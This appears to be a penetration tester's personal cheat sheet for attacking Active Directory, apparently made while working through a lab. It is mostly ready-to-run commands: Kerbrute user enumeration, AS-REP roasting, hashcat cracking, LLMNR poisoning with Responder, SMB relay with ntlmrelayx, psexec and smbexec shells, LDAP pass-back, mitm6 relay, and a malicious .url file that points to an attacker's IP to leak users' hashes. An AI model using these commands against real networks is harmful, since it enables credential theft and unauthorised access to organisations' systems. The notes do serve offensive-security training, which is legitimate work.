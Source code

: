 <h1> Kerbrute </h1><br>
Only do usernames as to not lockout users <br>
Located in my downloads <br>
./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.103.225 users.txt <br>
<br>
<h1> Query Ticket auth with no password </h1><br>
take valid usernames from kerbrute and place into new user file <br>
sudo python3 /home/kali/impacket/examples/GetNPUsers.py -dc-ip 10.10.103.225 spookysec.local/ -usersfile users.txt -format john -outputfile hashes <br>
cat hashes - look for any usernames with hashes here to crack <br>
<br>
To crack this with hashcat, you need to add a 23 to the hash between rep and name - so e.g $krb5asrep$23$asdas - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat<br>
hashcat mode -m 18200 <br>

<h1>LLMNR Poisoning</h1><br>
fallback with share that is unknown, device reaches out with broadcast to see if any device knows the share, malicious machine asks for hash to direct user <br>
<br>
Responder is used to capture the hashes (type locate responder to find the path) - python3 responder.py -I eth0 -rdwv <br>
Run tool first thing in morning on a pen test and right after lunch <br>
<br>
Next you'll want to crack the hashes - Hashcat runs better on normal PC and not VM due to using GPU. Copy whole hash, add to text file.
<br>
hashcat -m 5600 file.txt rockyou.txt --force ------  -m 5600 stands for AD hash NetNTLMv2 <br>
<br>
<h1>SMB Relay</h1><br>
Instead of cracking hashes from responder, can relay hashes to another machine. SMB signing has to be disabled on the target and relayed creds must be admin on machine.<br>
<b> to work have to go to responder.conf and turn off SMB and HTTP</b> <br>
Run Responder.py and also now configure ntlmrelayx.py (locate ntlmrelay) python3 ntlmrelayx.py -tf targets.txt -smb2support <br>
<br>
Can gain shell access with pw - run psexec (metasploit module) - need domain, user and pass, may need to try the module several times <br>
Could also use - sudo python3 smbexec.py domain/username:'password'@IP <br>
Or psexec.py domain/username:password@IP <br>
<br>
<h1>Pass Back Attack </h1> <br>
This is an LDAP attack (anything that uses LDAP to connect to AD such as printers) <br>
on LDAP server address within the settings configuration if you change the IP address of the LDAP server to your machine and setup a listerner (responder or netcat) the password will be sent over in cleartext
<br>
<br>
<h1> Force Hashes </h1> <br>
If you already have a user account and can write to a share that has alot of popularity, you can create a file that uses a fake icon file linking back to your IP running responder <br>
name the file "@something.url" and include contents <br>
[InternetShortcut]
URL=https://securify.nl
IconIndex=0
IconFile=\\<responder ip>\leak\leak.ico<br>
  run responder and anyone who visits share will send hash<br>

<h1> MITM6 </h1> <br>
github.com/got-it/mitm6 <br>
mitm6 -I eth0 -d domain.local <br>
Now setup relay attack with ntlmrelayx - ntlmrelayx.py -6 -t ldaps://domainip -wh fakewpad.domain.local -l lootme <br>

<h1>Further strats </h1><br>
Look for web portals that may have default creds, anything on there that shows AD creds? <br>
Check GPO's or hardcoded creds within XML files etc <br>
Look on printers <br>

<h1> Post exploitation <h1><br>
  <h2> Domain Enumeration with Powershell </h2> <br>
  . .\PowerView.ps1 (enter) <br>
  Get-NetDomain (enter)<br>
  Get-DomainPolicy<br>
  Get-NetUser (sometimes passwords are placed in Description) -- Get-NetUser | select description<br>
  




